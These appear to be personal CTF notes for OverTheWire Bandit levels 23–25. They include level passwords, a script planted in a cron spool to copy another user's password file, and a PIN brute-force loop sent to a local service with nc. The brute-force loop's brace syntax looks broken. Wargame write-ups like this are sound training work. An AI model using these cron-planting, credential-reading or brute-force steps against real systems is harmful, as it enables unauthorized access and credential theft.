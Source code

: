 ```
ssh bandit.labs.overthewire.org -p 2220 -l bandit23
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```

- cron job runs as bandit24 and the script is given
- executes and deletes files 

```
cd /etc/cron.d/
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir -p /tmp/notalppp
cd /tmp/notalppp
nano exp
```

```
#!/bin/bash
cat /etc/bandit_pass/bandit24 >> /tmp/notalppp/pass
```

```
chmod 777 exp
cp exp /var/spool/bandit24/foo
#after 2mins 
cat pass
```

## Bandit24

```
ssh bandit.labs.overthewire.org -p 2220 -l bandit24
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

- have to bruteforce using nc
- make a bash script to make a bruteforce pattern like $password $id

```
for i in {0000 .. 9999}
do 
	echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i
done
```

```
chmod 777 brute 
bash brute > pins
nc localhost 30002 < pins
```

## Bandit 25
# THIS LEVEL HAS MENTALLY DARINED ME

